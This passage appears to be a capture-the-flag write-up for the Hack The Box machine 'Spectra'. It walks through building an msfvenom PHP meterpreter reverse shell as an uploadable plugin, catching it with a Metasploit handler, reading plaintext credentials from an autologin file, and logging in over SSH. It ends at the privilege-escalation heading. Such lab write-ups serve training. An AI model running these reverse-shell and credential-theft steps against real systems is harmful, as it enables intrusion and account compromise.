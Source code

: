 ### Successful Exploit - Meterpreter Plugin:

1. **Generate Meterpreter payload:**
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.13 LPORT=4444 -f raw > shell.php
```

2. **Convert into valid plugin:**
```php
<?php
/*
Plugin Name: Meterpreter Reverse Shell
Description: Metasploit PHP reverse shell for HTB
Version: 1.0
Author: HTB User
*/
// msfvenom code here
```

3. **Compress and upload:**
```bash
zip meterpreter_plugin.zip shell.php
```

4. **Start listener in Metasploit:**
```bash
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 10.10.14.13
set LPORT 4444
exploit
```

**Result:** Gained Meterpreter shell as `nginx` user.

---

## redential Discovery

Located `/opt/autologin.conf.orig`, which referenced:
```
/etc/autologin/passwd
```

Dumping that file revealed plaintext credentials for user `katie`.

**SSH Access:**
```bash
ssh katie@spectra.htb
```

---

## Privilege Escalation

### Sudo Enumeration
